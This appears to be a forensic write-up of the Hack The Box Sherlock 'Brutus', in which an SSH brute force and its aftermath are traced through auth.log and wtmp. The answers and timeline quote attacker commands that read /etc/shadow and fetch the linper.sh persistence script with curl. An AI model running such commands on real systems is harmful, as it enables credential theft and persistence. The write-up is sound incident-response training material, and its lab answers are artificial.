# HTB Sherlock — Brutus

**Category:** DFIR / Endpoint Forensics
**Difficulty:** Easy
**Author:** Djibril Gathoni
**Date:** July 2026

---

## Scenario

In this Sherlock, you will familiarize yourself with Unix `auth.log` and `wtmp` logs. We'll explore
a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to
the server, the attacker performed additional activities, which we can track using `auth.log`.
Although `auth.log` is primarily used for brute-force analysis, we will delve into the full
potential of this artifact in our investigation, including aspects of privilege escalation,
persistence, and even some visibility into command execution.

---

## Tools Used

- `grep` / `awk` / `sort` / `uniq` — CLI log filtering and frequency analysis
- `utmp.py` — Python parser for the binary `wtmp` login-session artifact
- `7z` (p7zip) — AES-encrypted archive extraction
- MITRE ATT&CK — technique/sub-technique lookup

---

## Investigation

### Setup — Extracting the Artifact

The HTB-provided archive failed to extract with standard `unzip`, since two of the three files
inside (`auth.log`, `wtmp`) use AES encryption, which `unzip` doesn't support:

```bash
cd ~/Downloads/Brutus
unzip Brutus.zip
# skipping: auth.log   unsupported compression method 99
# skipping: wtmp        unsupported compression method 99
```

Re-extracting with `7z` (which supports AES) pulled all three files out correctly:

```bash
sudo apt install p7zip-full -y
7z x Brutus.zip
```

```
Files: 3
Size:       58201
Compressed: 5756
```

```bash
ls -la ~/Downloads/Brutus/
# auth.log   43911 bytes
# wtmp       11136 bytes
# utmp.py     3154 bytes
```

---

### Task 1 — Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?

Filtering `auth.log` for failed password attempts and counting occurrences by source IP:

```bash
sudo grep "Failed password" auth.log | awk '{print $(NF-3)}' | sort | uniq -c | sort -rn
```



One IP address stands out with 48 failed attempts, far more than any other source — a clear
brute-force signature.

**Answer:** `65.2.161.68`



---

### Task 2 — The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?

Filtering for successful authentications:

```bash
sudo grep "Accepted password" auth.log
```



The `203.101.190.9` login at `06:19:54` is unrelated legitimate activity. The first successful
login from the brute-force IP (`65.2.161.68`, confirmed in Task 1) lands on the `root` account at
`06:31:40`.

**Answer:** `root`



---

### Task 3 — Identify the UTC timestamp when the attacker logged in manually to the server and established a terminal session to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.

SSH *authentication* and terminal *session establishment* are tracked separately. Parsing the
binary `wtmp` artifact and filtering for the attacker's IP:

```bash
python3 utmp.py wtmp | grep "65.2.161.68"
```



SSH authentication for `root` occurred at `06:31:40` (Task 2), but the interactive terminal
session (`pts/1`) wasn't actually established until over a minute later.

**Answer:** `2024-03-06 06:32:45`



---

### Task 4 — SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

```bash
sudo grep "New session" auth.log
```



Session `34` corresponds to the initial SSH authentication handshake at `06:31:40`, but session
`37` (at `06:32:44`) aligns with the actual interactive terminal session confirmed in Task 3
(`06:32:45`) — this is the session the attacker actually used to carry out their objectives.

**Answer:** `37`



---

### Task 5 — The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

```bash
sudo grep "new user" auth.log
```



**Answer:** `cyberjunkie`



---

### Task 6 — What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?

Creating a new local (non-domain, non-cloud) user account for persistence maps directly to the
**Persistence** tactic under MITRE ATT&CK, technique T1136 (Create Account):



**Answer:** `T1136.001` (Create Account: Local Account)



---

### Task 7 — What time did the attacker's first SSH session end according to auth.log?

```bash
sudo grep -E "session closed for user root|Connection closed" auth.log
```



Session `34` (pid 2411) opened and closed at the exact same second (`06:31:40`) — it was only a
brief authentication handshake, never an interactive session. Session `37` (pid 2491), the actual
interactive session identified in Tasks 3–4, is the attacker's real first working session, and it
closed at `06:37:24`.

**Answer:** `2024-03-06 06:37:24`



---

### Task 8 — The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

```bash
sudo grep "cyberjunkie" auth.log | grep "sudo"
```



After being added to the `sudo` group, `cyberjunkie` first dumped `/etc/shadow` (credential access),
then used the same elevated privileges to pull down the `linper.sh` persistence framework — the
same open-source tool seen in the Telly Sherlock.

**Answer:** `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`



---

## Attack Timeline

| Time (UTC)              | Action                                                             |
| ------------------------ | ------------------------------------------------------------------ |
| 2024-03-06 06:19:54–06:31:40 | Attacker (65.2.161.68) brute-forces SSH — 48 failed password attempts |
| 2024-03-06 06:31:40       | Successful authentication as `root` (session 34, auth handshake only) |
| 2024-03-06 06:32:44–45     | Interactive terminal session established (session 37) — attacker's real working session |
| 2024-03-06 06:34:18       | Backdoor account `cyberjunkie` created                            |
| 2024-03-06 06:35:15       | `cyberjunkie` added to the `sudo` group                            |
| 2024-03-06 06:37:24       | Attacker's first (interactive) SSH session ends                   |
| 2024-03-06 06:37:34       | Attacker logs back in directly as `cyberjunkie`                   |
| 2024-03-06 06:37:57       | `cyberjunkie` runs `sudo cat /etc/shadow` — credential access      |
| 2024-03-06 06:39:38       | `cyberjunkie` runs `sudo curl .../linper.sh` — persistence tooling downloaded |

---

## Key Takeaways

- **`auth.log` alone tells only half the story.** SSH authentication and interactive terminal
  session establishment are logged separately and can differ by over a minute — relying on the
  `Accepted password` timestamp alone would have under-stated the attacker's actual dwell time.
- **AES-encrypted evidence archives require `7z`, not `unzip`.** Standard `unzip` silently skips
  files it can't decompress rather than failing loudly, which can make an investigator think an
  artifact is simply missing.
- **`systemd-logind` session numbers are a useful pivot** for distinguishing a genuine interactive
  session from a brief authentication-only connection, especially when multiple logins happen in
  quick succession from the same account.
- **Backdoor accounts + `sudo` group membership** is a fast, low-effort persistence and
  privilege-escalation combo — visible end-to-end in `auth.log` via `useradd`, `usermod`, and
  subsequent `sudo:` command lines.
- **Reused tooling across incidents is a real signal.** The same `linper.sh` persistence framework
  seen here also appeared in the Telly Sherlock, suggesting a shared toolkit or actor pattern worth
  tracking across investigations.

---

*Writeup by Djibril Gathoni | [LinkedIn](https://linkedin.com/in/djibrilgathoni) | [GitHub](https://github.com/Djibrilgathoni)*

